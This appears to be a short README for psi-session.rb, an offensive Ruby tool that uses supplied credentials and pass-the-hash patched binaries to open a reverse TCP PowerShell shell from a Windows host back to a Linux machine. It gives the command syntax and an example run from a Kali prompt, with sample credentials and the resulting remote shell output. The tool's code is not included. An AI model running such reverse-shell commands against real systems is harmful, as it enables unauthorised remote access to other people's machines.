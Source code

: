 # psi-session.rb
Tool designed to deliver you a reverse tcp powershell prompt directly to your linux commandline.
Execution is currently done via pth patched binaries for the time being.

Syntax:

>ruby psi-session.rb <DOMAIN/username> <password> <rhost> <lhost> <lport>

Example:

>root@kali:~/projects/psi-session# ruby psi-session.rb bob n0passw0rd1 10.0.0.12 10.0.0.13 5000

>Windows PowerShell running as user bob on CLA-WIN7TOOLS

>Copyright (C) 2015 Microsoft Corporation. All rights reserved.

>PS C:\Windows\system32>whoami

>cla-win7tools\bob

>PS C:\Windows\system32> 
